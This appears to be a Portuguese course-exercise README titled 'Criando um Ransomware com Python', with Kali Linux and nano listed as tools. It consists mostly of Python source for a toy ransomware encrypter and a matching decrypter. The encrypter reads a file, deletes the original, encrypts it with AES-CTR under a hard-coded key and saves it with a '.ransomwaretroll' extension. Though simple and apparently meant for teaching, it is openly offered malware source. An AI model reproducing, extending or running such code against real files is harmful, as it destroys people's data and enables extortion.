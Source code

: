  
### Criando um Ransomware com Python

### Ferramentas

- Kali Linux
- nano

### Encrypter

import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()


### Decrypter

import os
import pyaes

## abrir o arquivo criptografado
file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()

### Resultados

![Resultado 1](./screenshot1.png)

![Resultado 2](./screenshot2.png)

Repositório Git
 
O Git é um conceito essencial no mercado de trabalho atualmente, por isso sempre reforçamos sua importância em nossa metodologia educacional. Por isso, todo código-fonte desenvolvido durante este conteúdo pode ser encontrado no seguinte endereço para que você possa consultá-lo a qualquer momento:
 
https://github.com/cassiano-dio/cibersecurity-desafio-ransomware
 

### Follow Me

[LinkedIN](https://www.linkedin.com/in/mads1974/)
